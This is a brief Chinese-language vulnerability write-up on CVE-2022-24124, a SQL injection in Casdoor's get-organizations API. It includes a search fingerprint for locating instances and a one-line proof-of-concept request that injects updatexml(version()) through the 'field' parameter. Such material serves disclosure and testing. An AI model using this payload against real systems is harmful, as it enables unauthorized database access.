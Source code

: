 # Casdoor get-organizations SQL注入漏洞 CVE-2022-24124

## 漏洞描述

Casdoor 是一个基于 OAuth 2.0 / OIDC 的 UI 优先集中认证 / 单点登录 (SSO) 平台，简单点说，就是 Casdoor 可以帮你解决 用户管理 的难题，你无需开发用户登录注册等与用户鉴权相关的一系列功能，只需几个步骤，简单配置，与你的主应用配合，便可完全托管你的用户模块，简单省心，功能强大。

## 漏洞影响

<a-checkbox checked>Casdoor </a-checkbox>

## 网络测绘

<a-checkbox checked>"Casdoor"</a-checkbox>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651897068786-ebc3e112-d492-4adf-944a-1941f0f1f0f9.png)

验证POC

```java
/api/get-organizations?p=123&pageSize=123&value=cfx&sortField=&sortOrder=&field=updatexml(null,version(),null)
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1651897172319-3ccd1bce-7913-4731-aba6-a5cf2f0dc610.png)